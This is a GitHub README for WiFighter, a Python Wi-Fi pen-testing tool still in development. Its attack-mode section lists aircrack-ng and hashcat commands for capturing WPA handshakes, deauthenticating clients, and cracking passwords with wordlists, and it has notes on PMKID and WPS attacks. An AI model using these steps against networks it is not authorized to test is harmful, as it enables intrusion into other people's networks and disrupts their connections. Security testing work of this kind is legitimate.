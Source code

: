 # WiFighter
Easy-to-use WiFI pen-testing/scanning tool written in python

## Filip's Notes 
- AP scanning in progress


## Installation 

**Dependencies**
```c
sudo zypper in python3 aircrack-ng hashcat ...
```

**Creating python virtual enviroment**

Clone the project
```c
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```c
cd WiFighter
```

Create virtual enviroment
```c
python3 -m venv venv
```

Enter the virtual enviroment
```c
source venv/bin/activate
```

Install python modules (prettytable, tqdm) 
```c
pip3 install -r requirements.txt
```

Exit from virtual enviroment
```c
deactivate
```

Run the tool
```c
sudo ./wifighter.py
```


## WiFi Scan & Select

1. Fix channel 
2. Fix device busy
3. Client scanning
4. Encryption type


## Threat Hunt




## Attack mode

### 1. WPA/WPA2 Handshake Crack

**Aircrack guide**
- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

**Monitor mode**

Set interface to monitor
```c
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```c
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```c
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```c
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```c
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```c
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake - aircrack**

```c
sudo aircrack-ng -w <WORDLIST> -b <TARGET_AP_MAC> <HANDSHAKE>.cap
```

**Crack handshake - hashcat**

Convert captured handshake to hashcat format
```c
sudo aircrack-ng -J <OUTPUTFILE> <HANDSHAKE>.cap  
```

Crack with wordlist
```c
sudo hashcat -m 22000 <HANDSHAKE>.hccap <WORDLIST>
```


### 2. PMKID Attack (802.11r exploit)

**Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature**

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

**Installation**

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



### 3. WPS

**Reaver or Bully ??**
- Online WPS PIN Brute Force

**Pixie Dust**
- Offline WPS PIN crack
- Není to brute force (rychlejší)
- Využívá slabé kryptografie PINu (né každý router je náchylný)




